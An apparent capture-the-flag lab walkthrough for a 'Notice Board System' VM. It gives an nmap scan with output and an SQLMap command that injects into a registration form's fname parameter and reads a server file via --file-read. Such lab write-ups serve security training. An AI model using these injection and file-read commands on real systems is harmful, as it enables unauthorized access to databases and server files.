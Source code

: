# Walkthrough

## ENUMERATION

### Nmap Scan

```bash
nmap -sC -sV -O 10.0.2.15
```

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-21 11:19 +0545
Nmap scan report for noticeboard (10.0.2.15)
Host is up (0.000067s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Notice Board System
|_http-server-header: Apache/2.4.58 (Ubuntu)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6.32
OS details: Linux 2.6.32
Network Distance: 0 hops

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.23 seconds
```

## EXPLOITATION

### SQL Injection Attack

1. Use SQLMap to exploit the vulnerable registration form:

```bash
sqlmap -u "http://<your_vm_ip>/register.php" \
--data="fname=1&lname=test&email=a@b.com&password=123&class=11&register=" \
--file-read=/var/lib/mysql-files/proof.txt
```

2. **Important**: When prompted, answer **Y** to all options asked by SQLMap.

3. **Select Injection Point**: When you see this prompt:
   ```
   there were multiple injection points, please select the one to use for following injections:
   [0] place: POST, parameter: fname, type: Single quoted string (default)
   [1] place: POST, parameter: class, type: Unescaped numeric
   [q] Quit
   ```
   Choose **0** (fname parameter).

4. **Retrieve the File**: SQLMap will extract the file content. You have two options:

   **Option A**: If you get a hash value, convert it:
   ```bash
   echo "<Hash-Value>" | xxd -r -p
   ```

   **Option B**: Wait for SQLMap to offer automatic conversion and choose **Y** when prompted.

5. **Read the Proof**: SQLMap will show you the file location. Use cat to retrieve the flag:
   ```bash
   cat <given_file_location>
   ```

## ESCALATION

None needed.